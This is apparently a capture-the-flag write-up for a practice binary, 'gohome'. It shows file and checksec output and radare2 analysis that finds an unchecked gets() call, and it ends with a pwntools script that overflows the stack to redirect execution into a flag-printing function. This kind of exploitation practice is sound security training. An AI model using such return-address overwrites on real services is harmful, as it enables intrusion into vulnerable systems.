 1. use `file <file>` to take a look. It's a ELF file, not stripped.
```
$ file gohome
gohome: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, 
BuildID[sha1]=63cc39d0f4f93acc2ee50813f4f82c8ed43d9135, not stripped
```

2.use `gdb-peda checksec` to make sure whether it have protection of the program. by the result, we know that only NX protection is open.
![Image](https://i.imgur.com/YsoMUcS.png) 


3. `r2 <file>`, `aa`, `afl`, there's some function we can pay attention to. 
![Image](https://i.imgur.com/EFXiT2J.png)


4. first, `s main`, `VV` to take a look.
![Image](https://i.imgur.com/9eNQ6Rq.png)

5. by the code, we know that the program will exit after gets function get our user input. And our input will be put at **var_20h(rpb-0x20)**. Let's go back to see Billyhouse function.
![Image](https://i.imgur.com/RISfNKD.png)

6. we notice that this program will print flag which we want to get. So, what we need to do is to let the program jump here to run this function.

7. count to overwrite the stack and rbp address until the return address. we need to BOF all of them, put the Billyhouse function address to the return address. Bellow is our exploit script.

```python
from pwn import *

r = process('./gohome')
#r = remote('120.114.62.211', 6126)

payload = b'A'*40

r.sendline(payload + p64(0x004006c6))  #if 64 bit ,or 32bit use p32

r.interactive()
```

8. run the program and we can get the flag.